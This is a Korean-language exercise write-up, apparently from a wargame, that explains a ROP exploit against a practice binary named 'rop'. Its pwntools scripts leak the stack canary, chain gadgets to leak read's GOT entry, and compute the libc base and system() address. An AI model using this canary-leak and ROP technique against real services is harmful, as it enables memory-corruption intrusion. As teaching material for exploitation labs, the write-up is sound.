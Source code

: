 알아낸 `system` 함수의 주소를 어떤 함수의 GOT를 재호출하도록 ROP 체인을 구성하면 될 것 같음

## 익스플로잇

---

- `read` 함수의 got를 읽고, `read` 함수와 `system` 함수의 오프셋을 이용하여 `system` 함수의 주소를 계산
- pwntools에는 `ELF.symbols` 이라는 메소드로 특정 ELF에서 심볼 사이의 오프셋을 계산할 때 유용하게 사용 가능

```python
#!/usr/bin/env python3
from pwn import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
read_system = libc.symbols["read"]-libc.symbols["system"]
```

- `write` 와 `pop rdi; ret` 가젯 그리고 `pop rsi; pop r15; ret` 가젯을 사용하여 `read` 함수의 GOT를 읽고, 이를 이용해서 `system` 함수의 주소를 구하는 페이로드를 작성할 수 있음

```python
#!/usr/bin/env python3
# Name: rop.py
from pwn import *

def slog(name, addr): return success(': '.join([name, hex(addr)]))

p = process('./rop')
e = ELF('./rop')
libc = ELF('./libc.so.6')

# [1] Leak canary
buf = b'A'*0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

# [2] Exploit
read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
pop_rdi = 0x0000000000400853
pop_rsi_r15 = 0x0000000000400851

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8

# write(1, read_got, ...)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(write_plt)

p.sendafter(b'Buf: ', payload)
read = u64(p.recvn(6) + b'\x00'*2)
# libc.symbols['read'] = read함수에 오프셋
lb = read - libc.symbols['read']
system = lb + libc.symbols['system']
slog('read', read)
slog('libc_base', lb)
slog('system', system)

p.interactive()
```
